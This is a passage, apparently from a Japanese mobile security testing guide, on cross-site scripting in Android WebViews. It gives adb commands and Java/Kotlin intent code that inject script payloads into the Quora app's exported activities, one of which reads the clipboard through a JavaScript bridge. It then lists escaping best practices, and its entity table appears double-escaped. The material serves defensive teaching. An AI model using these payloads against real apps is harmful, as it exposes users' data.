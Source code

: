 * ADB

```bash
$ adb shell
$ am start -n com.quora.android/com.quora.android.ActionBarContentActivity \
-e url 'http://test/test' -e html 'XSS<script>alert(123)</script>'
```

* クリップボードデータ

```bash
$ am start -n com.quora.android/com.quora.android.ModalContentActivity  \
-e url 'http://test/test' -e html \
'<script>alert(QuoraAndroid.getClipboardData());</script>'
```

* Java/Kotlin でのサードパーティからの Intent の使用

```java
Intent i = new Intent();
i.setComponent(new ComponentName("com.quora.android",
"com.quora.android.ActionBarContentActivity"));
i.putExtra("url","http://test/test");
i.putExtra("html","XSS PoC <script>alert(123)</script>");
view.getContext().startActivity(i);
```

```kotlin
val i = Intent()
i.component = ComponentName("com.quora.android",
"com.quora.android.ActionBarContentActivity")
i.putExtra("url", "http://test/test")
i.putExtra("html", "XSS PoC <script>alert(123)</script>")
view.context.startActivity(i)
```

WebView を使用してリモート Web サイトを表示する場合、HTML をエスケープする負担はサーバ側に移行する。 Web サーバに XSS の欠陥が存在する場合、これを利用して WebView のコンテキストでスクリプトを実行することができる。そのため、Web アプリケーションのソースコードに対して静的解析を行うことが重要である。<br>

以下のベストプラクティスに従っていることを確認する。
* HTML 、 JavaScript 、その他の解釈されるコンテキストでは、絶対に必要な場合を除き、信頼できないデータはレンダリングされない。
* エスケープ文字には、 HTML エンティティエンコーディングなど、適切なエンコーディングが適用される。注: JavaScript ブロック内にある URL をレンダリングするなど、HTML が他のコード内にネストされている場合、エスケープ ルールは複雑になる。

レスポンスでデータがどのようにレンダリングされるかを検討する。例えば、データが HTML コンテキストでレンダリングされる場合、エスケープする必要がある 6 つの制御文字が存在する。

| Character | Escaped |
| :---: | :---: |
| & | &amp;amp; |
| < | &amp;lt; |
| > | &amp;gt; |
| " | &amp;quot; |
| ' | &amp;#x27; |
| / | &amp;#x2F; |
